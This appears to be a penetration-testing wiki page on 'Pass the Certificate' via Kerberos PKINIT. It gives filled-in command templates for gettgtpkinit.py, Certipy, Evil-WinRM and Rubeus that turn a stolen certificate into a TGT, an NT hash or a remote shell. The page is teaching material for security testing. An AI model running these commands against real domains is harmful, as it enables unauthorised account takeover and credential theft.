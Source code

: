 # Pass the Certificate - PKINIT

## Theory

The Kerberos authentication protocol works with tickets in order to grant access. An ST (Service Ticket) can be obtained by presenting a TGT (Ticket Granting Ticket). That prior TGT can only be obtained by validating a first step named "pre-authentication" (except if that requirement is explicitly removed for some accounts, making them vulnerable to [ASREProast](broken-reference)). The pre-authentication can be validated symmetrically (with a DES, RC4, AES128 or AES256 key) or asymmetrically (with certificates). The asymmetrical way of pre-authenticating is called PKINIT.

Pass the Certificate is the fancy name given to the pre-authentication operation relying on a certificate (i.e. key pair) to pass in order to obtain a TGT. This operation is often conducted along [shadow credentials](shadow-credentials.md), [AD CS escalation](broken-reference) and [UnPAC-the-hash attacks](unpac-the-hash.md).

{% hint style="info" %}
Keep in mind a certificate in itself cannot be used for authentication without the knowledge of the private key. A certificate is signed for a specific public key, that was generated along with a private key, which should be used when relying on a certificate for authentication.

The "certificate + private key" pair is usually used in the following manner

* PEM certificate + PEM private key
* PFX certificate export (which contains the private key) + PFX password (which protects the PFX certificate export)
{% endhint %}

## Practice

{% hint style="danger" %}
If you encounter the erro&#x72;**`KDC_ERR_PADATA_TYPE_NOSUPP`**&#x77;hen attempting to pass the certificate through PKINIT, this may be an indication that the targeted KDC do not have certificates with the necessary EKUs (Extended Key Usages). Specifically, for a KDC to support PKINIT, its certificates must include the **`Smart Card Logon`** EKU.\
\
**However, you can try to** [**pass the certificate using Schannel**](../schannel/pass-the-certificate-schannel.md)**.**
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
#### PKINITtools

From UNIX-like systems, [Dirk-jan](https://twitter.com/_dirkjan)'s [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py) from [PKINITtools](https://github.com/dirkjanm/PKINITtools/) tool to request a TGT (Ticket Granting Ticket) for the target object. That tool supports the use of the certificate in multiple forms.

```python
# PFX certificate (file) + password (string, optionnal)
gettgtpkinit.py -cert-pfx "PATH_TO_PFX_CERT" -pfx-pass "CERT_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

# Base64-encoded PFX certificate (string) (password can be set)
gettgtpkinit.py -pfx-base64 $(cat "PATH_TO_B64_PFX_CERT") "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

# PEM certificate (file) + PEM private key (file)
gettgtpkinit.py -cert-pem "PATH_TO_PEM_CERT" -key-pem "PATH_TO_PEM_KEY" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
```

The ticket obtained can then be used to

* authenticate with [pass-the-cache](ptc.md)
* conduct an [UnPAC-the-hash](unpac-the-hash.md) attack. This can be done with [getnthash.py](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py) from [PKINITtools](https://github.com/dirkjanm/PKINITtools/).
* obtain access to the account's SPN with an S4U2Self. This can be done with [gets4uticket.py](https://github.com/dirkjanm/PKINITtools/blob/master/gets4uticket.py) from [PKINITtools](https://github.com/dirkjanm/PKINITtools).

#### Certipy

When using Certipy for Pass-the-Certificate, it automatically does [UnPAC-the-hash](unpac-the-hash.md) to recover the account's NT hash, in addition to saving the obtained TGT.

```bash
certipy auth -pfx <PATH_TO_PFX_CERT> -dc-ip <DC_IP> -username <user> -domain <DOMAIN_FQDN>
```

{% hint style="info" %}
Notes that Certipy's commands don't support PFXs with password. The following command can be used to "unprotect" a PFX file.

```bash
certipy cert -export -pfx <PATH_TO_PFX_CERT> -password <CERT_PASSWORD> -out <unprotected.pfx>
```
{% endhint %}

#### Evil-WinRm

[Evil-WinRM](https://github.com/Hackplayers/evil-winrm) uses the [WinRM](../../../redteam/pivoting/winrm.md) protocol based on [Windows Management Instrumentation (WMI)](../../../redteam/pivoting/remote-wmi.md) to give us an interactive shell on a Windows host. Winrm Supports PKINIT, so we can authenticate with a certificate.

```bash
evil-winrm -i <TARGET_IP> -c <PATH_TO_PEM_CERT> -k <PATH_TO_PEM_KEY> -S -r <DOMAIN_REALM>
```

Evil WinRM doesn't directly support PFX files and need a PEM certificate and private key. The following commands can be used to convert a PFX file in PEM formats

```bash
# Exctract PEM certificate
openssl pkcs12 -in <PATH_TO_PFX_CERT> -clcerts -nokeys -out <PATH_TO_NEW_PEM_CERT>
# Extrcat PEM key
openssl pkcs12 -in <PATH_TO_PFX_CERT> -nocerts -out <ENC_PEM_KEY>
openssl rsa -in <ENC_PEM_KEY> -out <FINAL_PEM_KEY>
```
{% endtab %}

{% tab title="Windows" %}
From Windows systems, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used to request a TGT (Ticket Granting Ticket) for the target object from a base64-encoded PFX certificate export (with an optional password).

```bash
Rubeus.exe asktgt /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
```

{% hint style="info" %}
PEM certificates can be exported to a PFX format with openssl. Rubeus doesn't handle PEM certificates.

```bash
openssl pkcs12 -in "cert.pem" -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out "cert.pfx"
```
{% endhint %}

{% hint style="info" %}
Certipy uses DER encryption. To generate a PFX for Rubeus, [openssl](https://www.openssl.org/) can be used.

```bash
openssl rsa -inform DER -in key.key -out key-pem.key
openssl x509 -inform DER -in cert.crt -out cert.pem -outform PEM
openssl pkcs12 -in cert.pem -inkey key-pem.key -export -out cert.pfx
```
{% endhint %}

The ticket obtained can then be used to

* authenticate with [pass-the-ticket](broken-reference)
* conduct an [UnPAC-the-hash](unpac-the-hash.md) attack (add the `/getcredentials` flag to Rubeus's asktgt command)
* obtain access to the account's SPN with an S4U2Self.
{% endtab %}
{% endtabs %}
